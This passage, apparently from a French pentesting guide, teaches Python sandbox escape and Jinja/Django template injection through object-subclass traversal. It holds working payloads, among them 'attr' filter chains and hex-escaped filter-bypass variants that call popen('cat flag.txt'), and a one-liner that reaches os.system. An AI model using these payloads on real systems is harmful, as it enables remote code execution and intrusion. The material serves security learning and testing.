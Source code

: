 Ici, je vais expliquer comment découvrir facilement les **fonctionnalités plus dangereuses chargées** et proposer des exploits plus fiables.

#### Accéder aux sous-classes avec des contournements

L'une des parties les plus sensibles de cette technique est de pouvoir **accéder aux sous-classes de base**. Dans les exemples précédents, cela a été fait en utilisant `''.__class__.__base__.__subclasses__()`, mais il existe **d'autres moyens possibles** :
```python
#You can access the base from mostly anywhere (in regular conditions)
"".__class__.__base__.__subclasses__()
[].__class__.__base__.__subclasses__()
{}.__class__.__base__.__subclasses__()
().__class__.__base__.__subclasses__()
(1).__class__.__base__.__subclasses__()
bool.__class__.__base__.__subclasses__()
print.__class__.__base__.__subclasses__()
open.__class__.__base__.__subclasses__()
defined_func.__class__.__base__.__subclasses__()

#You can also access it without "__base__" or "__class__"
# You can apply the previous technique also here
"".__class__.__bases__[0].__subclasses__()
"".__class__.__mro__[1].__subclasses__()
"".__getattribute__("__class__").mro()[1].__subclasses__()
"".__getattribute__("__class__").__base__.__subclasses__()

#If attr is present you can access everything as a string
# This is common in Django (and Jinja) environments
(''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(132)|attr('__init__')|attr('__globals__')|attr('__getitem__')('popen'))('cat+flag.txt').read()
(''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fmro\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')(1)|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('popen'))('cat+flag.txt').read()
```
### Trouver les bibliothèques dangereuses chargées

Par exemple, sachant qu'avec la bibliothèque **`sys`** il est possible d'**importer des bibliothèques arbitraires**, vous pouvez rechercher tous les **modules chargés qui ont importé sys à l'intérieur d'eux**:
```python
[ x.__name__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ]
['_ModuleLock', '_DummyModuleLock', '_ModuleLockManager', 'ModuleSpec', 'FileLoader', '_NamespacePath', '_NamespaceLoader', 'FileFinder', 'zipimporter', '_ZipImportResourceReader', 'IncrementalEncoder', 'IncrementalDecoder', 'StreamReaderWriter', 'StreamRecoder', '_wrap_close', 'Quitter', '_Printer', 'WarningMessage', 'catch_warnings', '_GeneratorContextManagerBase', '_BaseExitStack', 'Untokenizer', 'FrameSummary', 'TracebackException', 'CompletedProcess', 'Popen', 'finalize', 'NullImporter', '_HackedGetData', '_localized_month', '_localized_day', 'Calendar', 'different_locale', 'SSLObject', 'Request', 'OpenerDirector', 'HTTPPasswordMgr', 'AbstractBasicAuthHandler', 'AbstractDigestAuthHandler', 'URLopener', '_PaddedFile', 'CompressedValue', 'LogRecord', 'PercentStyle', 'Formatter', 'BufferingFormatter', 'Filter', 'Filterer', 'PlaceHolder', 'Manager', 'LoggerAdapter', '_LazyDescr', '_SixMetaPathImporter', 'MimeTypes', 'ConnectionPool', '_LazyDescr', '_SixMetaPathImporter', 'Bytecode', 'BlockFinder', 'Parameter', 'BoundArguments', 'Signature', '_DeprecatedValue', '_ModuleWithDeprecations', 'Scrypt', 'WrappedSocket', 'PyOpenSSLContext', 'ZipInfo', 'LZMACompressor', 'LZMADecompressor', '_SharedFile', '_Tellable', 'ZipFile', 'Path', '_Flavour', '_Selector', 'JSONDecoder', 'Response', 'monkeypatch', 'InstallProgress', 'TextProgress', 'BaseDependency', 'Origin', 'Version', 'Package', '_Framer', '_Unframer', '_Pickler', '_Unpickler', 'NullTranslations']
```
Il y en a beaucoup, et **nous n'en avons besoin que d'un seul** pour exécuter des commandes:
```python
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("ls")
```